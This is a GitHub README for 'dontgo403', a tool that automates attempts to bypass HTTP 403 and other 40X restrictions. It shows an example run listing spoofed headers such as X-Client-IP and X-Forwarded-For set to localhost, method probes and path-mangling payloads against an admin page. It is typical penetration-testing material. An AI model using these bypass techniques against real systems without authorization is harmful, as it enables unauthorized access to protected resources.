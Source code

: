 <p align="center">
<img src="https://i.imgur.com/0vLHCHd.png" width="600" height="100" >
</p>

[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

dontgo403 is a tool to bypass 40X errors.

### Installation


### Options
```bash
./dontgo403 -h

Command line application that automates different attempts to bypass 40X codes

Usage:
  dontgo403 [flags]

Flags:
  -h, --help               help for dontgo403
  -p, --proxy string       Proxy URL. For example: http://127.0.0.1:8080
  -u, --uri string         Target URL
  -a, --useragent string   Set the User-Agent string (default 'dontgo403/0.1')
```

### Example of usage
```bash
./dontgo403 -u https://server.com/admin

[+] HTTP METHODS
TRACE: 405
CONNECT: 400
PUT: 405
POST: 405
OPTIONS: 405
DELETE: 405
HEAD: 200
GET: 403

[+] VERB TAMPERING
Forwarded localhost: 403
X-Forwarded-By localhost: 403
X-Forwarded-Server 127.0.0.1: 403
X-Real-IP 127.0.0.1: 403
X-Forwarded-Host 127.0.0.1: 403
X-Original-URL /admin: 403
X-Host localhost: 403
Forwarded 127.0.0.1: 403
True-Client-IP 127.0.0.1: 403
X-Override-URL /admin: 403
X-Forwarded 127.0.0.1: 403
X-HTTP-Host-Override 127.0.0.1: 403
X-Forwarded localhost: 403
X-Host 127.0.0.1: 403
X-Client-IP 127.0.0.1: 200 <---- 200, OK
Client-IP 127.0.0.1: 403
X-Forwarded-For 127.0.0.1: 403
X-Remote-Addr 127.0.0.1: 403
X-Forwarded-By 127.0.0.1: 403
Forwarded-For-Ip 127.0.0.1: 403
X-Forwarded-Host localhost: 403
X-Forwarded-For localhost: 403
Forwarded-For 127.0.0.1: 403
Referer /admin: 403
Forwarded-For localhost: 403
X-Forwarded-For-Original localhost: 403
X-Rewrite-URL /admin: 403
X-Remote-IP 127.0.0.1: 403
X-Forwarded-Server localhost: 403
X-Originating-IP 127.0.0.1: 403
X-HTTP-Method-Override PUT: 403
X-Forward 127.0.0.1: 403
X-Remote-Addr localhost: 403
X-Custom-IP-Authorization 127.0.0.1: 403
X-Forwarded-For-Original 127.0.0.1: 403
X-Forward localhost: 403
X-Forward-For 127.0.0.1: 403

[+] CUSTOM PATHS
End path ..\;/: 404
End path //: 403
End path : 403
End path ??: 403
End path : 403
End path ?: 403
End path /: 403
End path /.: 403
Mid path /.\;/: 404
Mid path \;foo=bar/: 403
Mid path /./: 403
Mid path /%2e/: 403
```

### Contact
[Twitter](https://www.twitter.com/devploit), [Telegram](https://t.me/devploit)